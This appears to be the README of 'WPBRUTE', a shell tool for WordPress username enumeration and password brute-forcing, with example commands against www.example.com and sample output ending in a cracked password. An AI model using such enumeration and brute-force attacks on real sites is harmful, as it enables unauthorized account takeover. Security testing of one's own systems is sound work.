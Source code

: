 WPBRUTE
=======

Wordpress user enumeration and password bruteforce.

####User Enumeration:
<code>$ ./wpbrute.sh --url=www.example.com</code>
<pre>
[+] Username or nickname enumeration
admin
testuser
</pre>

####Password Bruteforce:
<code>$ ./wpbrute.sh --url=www.example.com --user=admin --wordlist=wordlist.txt</code>
<pre>
[+] Bruteforcing user [admin]
123456
test123
123test123
The password is: 123test123
</pre>
